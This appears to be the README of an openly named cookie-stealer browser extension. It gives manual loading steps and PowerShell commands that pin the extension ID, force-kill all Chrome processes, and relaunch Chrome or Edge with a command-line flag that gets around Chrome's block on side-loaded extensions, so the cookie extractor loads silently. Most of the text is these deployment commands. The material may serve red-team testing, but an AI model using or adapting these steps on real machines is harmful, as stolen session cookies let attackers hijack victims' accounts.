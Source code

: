 # cookie-stealer-extension

## Manual Cookie Extraction
Update manifest with public key (optional)
1. Go to `chrome://extensions/` or `edge://extensions/`
2. Enable "Developer Mode" 
3. Load the folder with the extension. 
4. View cookies in downloads

## Automated Cookie Extraction

0. Optional: Create Public Key and insert into manifest.json

Helps keep track of the extension ID thats going to be loaded  
```powershell
cd cookie-stealer-extension

#create a public key for the extension
openssl genrsa -out extension.key 2048
openssl rsa -in extension.key -pubout -outform DER -out extension_public.der
[Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\path\to\extension_public.der")) > extension_pubkey_b64.txt

# add base64 key to manifest.json
(Get-Content manifest.json.template -Raw) -replace 'UPDATEME', (Get-Content extension_pubkey_b64.txt -Raw) | Set-Content manifest.json
```

Calculate extension ID
```powershell
# Base64-encoded public key
$base64 = Get-Content "extension_pubkey_b64.txt" -Raw

# Decode the Base64 into bytes (DER-encoded public key)
$pubkeyBytes = [Convert]::FromBase64String($base64)

# Compute SHA256 hash
$sha256 = [System.Security.Cryptography.SHA256]::Create()
$hash = $sha256.ComputeHash($pubkeyBytes)

# Use the first 16 bytes (128 bits) and convert each 4-bit nibble to a letter a-p (extension ID uses base16 a-p encoding)
$extensionId = ""
foreach ($b in $hash[0..15]) {
    $hi = ($b -band 0xF0) -shr 4
    $lo = $b -band 0x0F
    $extensionId += [char](97 + $hi) + [char](97 + $lo)
}

"Extension ID: $extensionId"
```

1. Update manifest.json as needed and load custom extension
```powershell
# all insteances of chrome must be stopped for this to work
Get-Process chrome -ErrorAction SilentlyContinue | Stop-Process -Force

start-process chrome.exe -ArgumentList '--load-extension=C:\Path\To\cookie-stealer-extension --disable-features=DisableLoadExtensionCommandLineSwitch https://google.com'
# Note Edge does not require the disabled feature switch
start-process msedge.exe -ArgumentList '--load-extension=C:\Path\To\cookie-stealer-extension https://google.com'

```

